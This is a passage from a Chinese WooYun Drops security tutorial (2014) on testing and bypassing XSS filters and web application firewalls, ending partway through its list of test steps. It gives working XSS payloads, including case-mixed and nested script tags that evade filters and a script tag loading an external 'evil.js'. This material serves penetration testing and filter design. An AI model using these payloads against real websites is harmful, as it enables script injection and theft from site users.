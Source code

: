 # Bypass xss 过滤的测试方法

2014/01/02 19:16 | [五道口杀气](http://drops.wooyun.org/author/五道口杀气 "由 五道口杀气 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

本文来自于《Modern Web Application Firewalls Fingerprinting and Bypassing XSS Filters》其中的 bypass xss 过滤的部分，前面有根据 WAF 特征确定是哪个 WAF 的测试方法给略过了，重点来看一下后面绕 xss 的一些基本的测试流程，虽说是绕 WAF 的，但这里还是根据 WAF 中的正则缺陷来绕过测试方法，并不是协议上问题，所以呢，基本可以通用于其他 xss 过滤的场景。方便新手们比较快速的了解到测试 xss 的一些基本的方法。

## 0x01 Bypassing 黑名单

* * *

大多数的场所是用的黑名单来做过滤器的，有三种方式绕过黑名单的测试：

```
1、暴力测试（输入大量的 payload，看返回结果）
2、根据正则推算
3、利用浏览器 bug 
```

### 初步测试

1)尝试插入比较正常的 HTML 标签，例如：`<b>，<i>，<u>`来看一下返回页面的情况是怎样的，是否被 HTML 编码了，或者标签被过滤了。

2)尝试插入不闭合的标签，例如：`<b，<i，<u，<marquee`然后看一下返回响应，是否对开放的标签也有过滤。

3)然后测试几个 XSS 的 payload，基本所有的 xss 过滤器都会进行过滤的：

```
<script>alert(1);</script>
<script>prompt(1);</script>
<script>confirm(1);</script>
<scriptsrc="http://rhainfosec.com/evil.js"> 
```

看返回响应，是过滤的全部，还是只过滤了部分，是否还留下了`alert,prompt,confirm`字符，再尝试大小写的组合：

```
<scRiPt>alert(1);</scrIPt> 
```

4)如果过滤器仅仅是把`<script>`和`</script>`标签过滤掉，那么可以用

```
<scr<script>ipt>alert(1)</scr<script>ipt> 
```

的方式来绕过，这样当`<script>`标签被过滤掉，剩下的组合起来刚好形成一个完整的 payload。

5)用`<a href`标签来测试，看返回响应

